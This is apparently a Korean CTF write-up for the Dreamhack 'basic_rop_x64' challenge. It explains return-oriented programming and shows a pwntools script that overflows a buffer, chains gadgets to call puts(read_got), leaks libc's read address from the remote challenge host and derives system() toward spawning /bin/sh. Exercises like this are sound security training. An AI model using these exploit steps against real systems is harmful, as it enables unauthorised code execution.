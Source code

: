<p align="center">
	<a href="/assets/images/TIL220722/Untitled.png">
	<img src="/assets/images/TIL220722/Untitled.png" width="350">
    </a>
</p>

Code 내의 `read`를 이용해 예시 코드와 동일한 방식으로 **ROP 기법**을 통해 `system("/bin/sh")`문을 실행할 수 있다.

### `system`의 address 계산하기

```python
from pwn import *

#p = process('./basic_rop_x64')
p = remote("host3.dreamhack.games", 23059)

e = ELF('./basic_rop_x64')

puts_plt = e.plt['puts']
puts_got = e.got['puts']
read_plt = e.plt['read']
read_got = e.got['read']
pop_rdi = 0x0000000000400883
ret = 0x00000000004005a9

payload = b"A"*(0x40 + 0x8)

# puts(read_got)
payload += p64(pop_rdi) + p64(read_got)
payload += p64(puts_plt)

p.send(payload)
print(p.recvn(0x40)) 
read = u64(p.recvn(6) + b"\x00"*2)
print("read", hex(read))

#lb = read - libc.symbols["read"]
#system = lb + libc.symbols["system"]
system = read - 0xb1ec0

p.interactive()
```

ROP 기법으로 `puts(read_got)`를 실행해 `read`**가 저장된 address를 출력**하고, 이 값을 이용해 server에서 사용중인 **libc의 version을 파악**할 수 있다. `read`만 query에 넣어줬을 땐 여러 libc 파일들이 뜰 수 있으니 `puts`의 address까지 출력해서 query에 넣으면 더 정확한 검색 결과를 확인할 수 있다.
